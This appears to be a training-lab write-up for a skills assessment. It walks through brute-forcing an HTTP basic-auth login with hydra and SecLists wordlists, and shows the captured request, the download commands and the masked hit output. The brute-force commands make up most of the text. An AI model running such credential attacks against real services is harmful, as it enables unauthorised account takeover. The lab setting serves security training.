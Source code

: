 
# Brief

The first part of the skills assessment will require you to brute-force the the target instance. 

Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)


# Questions

1. What is the password for the basic auth login?

```sh
# Target:
94.237.50.221:52525

# Access the target
http://94.237.50.221:52525


# Observe you are required a username and password. Enter test:test to capture the request in Burp.
GET / HTTP/1.1
Host: 94.237.50.221:52525
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i
Authorization: Basic dGVzdDp0ZXN0


# B64 decode the authorization to see it's your test:test. Failure message
401 Authorization Required


# Download the wordlists
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt

curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt


# Format
mv 2023-200_most_used_passwords.txt passwords.txt

mv top-usernames-shortlist.txt usernames.txt


# Attack
hydra -L usernames.txt -P passwords.txt 94.237.50.221 http-get / -s 52525

...
[52525][http-get] host: 94.237.50.221   login: ******   password: ******
...


# Verify credentials
******:******
```


2. After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

```sh
# and once successful, read the message
Congratulations!

This is the username you will need for part 2 of the Skills Assessment ******
```
